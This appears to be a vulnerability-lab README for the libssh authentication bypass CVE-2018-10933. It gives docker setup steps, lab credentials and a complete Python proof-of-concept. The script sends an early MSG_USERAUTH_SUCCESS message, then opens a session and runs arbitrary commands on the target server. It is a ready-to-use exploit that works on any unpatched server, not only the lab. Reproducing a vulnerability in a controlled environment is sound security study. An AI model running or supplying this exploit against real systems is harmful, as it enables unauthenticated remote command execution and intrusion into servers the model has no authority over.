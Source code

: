 # libssh Authentication Bypass Vulnerability(CVE-2018-10933)

[中文版本(Chinese version)](README.zh-cn.md)

libssh is a multiplatform C library implementing the SSHv2 protocol on client and server side. A logic vulnerability was found in libssh's server-side state machine. The attacker can send the `MSG_USERAUTH_SUCCESS` message before the authentication succeed. That can bypass the authentication and access the target SSH server.

References:

- https://www.libssh.org/security/advisories/CVE-2018-10933.txt
- https://www.seebug.org/vuldb/ssvid-97614

## Setup

Start the environment:

```
docker compose up -d
```

After the environment is started, we can connect the `your-ip:2222` port (account password: `myuser:mypassword`), which is a legal ssh login:

![](1.png)

## Exploit

Referring to the POC given in https://www.seebug.org/vuldb/ssvid-97614, we can use the following script to proof the vulnerability.

```python
#!/usr/bin/env python3
import sys
import paramiko
import socket
import logging

logging.basicConfig(stream=sys.stdout, level=logging.DEBUG)
bufsize = 2048


def execute(hostname, port, command):
    sock = socket.socket()
    try:
        sock.connect((hostname, int(port)))

        message = paramiko.message.Message()
        transport = paramiko.transport.Transport(sock)
        transport.start_client()

        message.add_byte(paramiko.common.cMSG_USERAUTH_SUCCESS)
        transport._send_message(message)

        client = transport.open_session(timeout=10)
        client.exec_command(command)

        # stdin = client.makefile("wb", bufsize)
        stdout = client.makefile("rb", bufsize)
        stderr = client.makefile_stderr("rb", bufsize)

        output = stdout.read()
        error = stderr.read()

        stdout.close()
        stderr.close()

        return (output+error).decode()
    except paramiko.SSHException as e:
        logging.exception(e)
        logging.debug("TCPForwarding disabled on remote server can't connect. Not Vulnerable")
    except socket.error:
        logging.debug("Unable to connect.")

    return None


if __name__ == '__main__':
    print(execute(sys.argv[1], sys.argv[2], sys.argv[3]))

```

You can execute arbitrary commands on the target server like following:

![](2.png)
